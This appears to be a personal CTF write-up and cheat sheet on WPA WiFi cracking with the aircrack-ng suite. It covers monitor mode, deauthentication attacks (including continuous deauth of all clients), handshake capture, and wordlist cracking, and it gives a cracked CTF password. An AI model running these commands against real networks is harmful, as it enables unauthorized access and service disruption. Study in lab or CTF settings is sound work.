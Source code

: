 # Solving the ctf 
  1. `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 02:1A:11:FF:D9:BD -e 'James Honor 8' NinjaJc01-01.cap`
  2. found the password: greeneggsandham

---

## Wifi Hacking Workflow(Deauthentication Attack Method)
  ```sh
  1. use airmon-ng to enter monitor mode
  2. [opcional] force the clients from the target network to de-authenticate to speed up the process of gathering the 4 way handshake
  3. use airdump-ng to capture packets passing through the interface(monitor mode interface) into pcap files
  4. use aircrack-ng to crack the password from the pcap file
  ```

---

## 1. Armon-ng(used to change interaces into monitor mode)
  - monitor mode: `sudo airmon-ng start wlan0` (assuming wlan0 is your interface's name)
  - the name will likely be: `wlan0mon`
  - kill processes using that network adapter: `airmon-ng check kill`

---

## 2. Aireplay-ng(force the clients to deauth to speed up the process of getting the passwd hash)
  
  deauthenticate specific client:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon`

    - `--deauth 10`: Sends 10 deauthentication packets.
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `-c AA:BB:CC:DD:EE:FF`: The MAC address of the client to deauthenticate.
    - `wlan0mon`: Yor wireless interface in monitor mode
  </details>

  deauthenticate all clients:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon`

    - `--deauth 0`: Sends deauthentication packets continuously (0 means infinite).
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `wlan0mon`: Your wireless interface in monitor mode.
  </details>

---

## 3. Airodump-ng(captures packets from an interface in monitor mode)
  - `sudo airodump-ng wlan0mon`

  - example use: `sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon`
    - `-c <channel>`: Specifies the channel of the target network.
    - -`b <BSSID>`: Specifies the BSSID (MAC address) of the target access point.
    - `-w capture`: Writes captured packets to a file named capture-01.cap (increments the file number for subsequent captures).

---

## 4. Aircrack-ng(cracks the hash of the passphrase from the 4-way-handshake pcap file)
  - Important switches
  ```sh
  -b (to specify the bssid)
  -e (to specify the essid)
  -w (to specify a wordlist)
  ```

  - example use: `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap`
